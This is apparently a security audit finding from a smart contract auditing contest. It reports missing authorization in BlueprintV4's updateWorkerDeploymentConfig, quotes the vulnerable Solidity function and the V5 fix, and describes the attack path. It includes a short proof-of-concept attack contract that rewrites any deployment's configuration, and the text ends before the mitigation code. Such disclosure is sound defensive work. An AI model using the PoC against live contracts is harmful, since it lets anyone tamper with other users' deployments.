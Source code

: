 Small Merlot Chipmunk

High

# Missing Authorization in V4's updateWorkerDeploymentConfig

### Summary

Missing authorization check in V4's updateWorkerDeploymentConfig function allows any user to modify any deployment configuration, leading to potential service disruption and security compromises.


https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L663

### Root Cause

 In the history/BlueprintV4.sol implementation, the updateWorkerDeploymentConfig function does not validate that the caller is the deployment owner before allowing configuration changes:


```solidity
function updateWorkerDeploymentConfig(bytes32 projectId, bytes32 requestID, string memory updatedBase64Config)
    public
    hasProject(projectId)
{
    require(requestDeploymentStatus[requestID].status != Status.Init, "requestID does not exist");
    require(bytes(updatedBase64Config).length > 0, "updatedBase64Config is empty");
    require(requestDeploymentStatus[requestID].status != Status.Issued, "requestID is not picked up by any worker");

    // reset status if it is generated proof
    if (requestDeploymentStatus[requestID].status == Status.GeneratedProof) {
        requestDeploymentStatus[requestID].status = Status.Pickup;
    }

    emit UpdateDeploymentConfig(
        projectId, requestID, requestDeploymentStatus[requestID].deployWorkerAddr, updatedBase64Config
    );
}

```

In contrast, the V5 implementation correctly checks ownership:

```solidity
// check if it owner of requestID
require(deploymentOwners[requestID] == userAddress, "Only deployment owner can update config");
```

### Internal Pre-conditions

The target system must be using BlueprintV4 or earlier
The target deployment must have been picked up by a worker (status != Status.Issue

### External Pre-conditions

.

### Attack Path

Attacker identifies an active deployment (one that has been picked up by a worker)
Attacker calls updateWorkerDeploymentConfig with malicious configuration data
The contract updates the configuration without checking if the caller is authorized
The deployment configuration is modified, potentially disrupting service or compromising security

### Impact

Any user can modify any deployment configuration, potentially causing service disruption, data loss, or security breaches. Workers may execute malicious configurations, affecting the integrity and availability of deployed services.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./history/BlueprintV4.sol";

contract UnauthorizedConfigAttack {
    BlueprintV4 public blueprint;
    
    constructor(address _blueprint) {
        blueprint = BlueprintV4(_blueprint);
    }
    
    function changeAnyConfig(
        bytes32 projectId,
        bytes32 targetRequestID,
        string memory maliciousConfig
    ) public {
        // Anyone can update any deployment's configuration
        blueprint.updateWorkerDeploymentConfig(
            projectId,
            targetRequestID,
            maliciousConfig
        );
        // If successful, any configuration can be modified without authorization
    }
}

```

### Mitigation

Add proper authorization checks to ensure only the deployment owner can update configurations: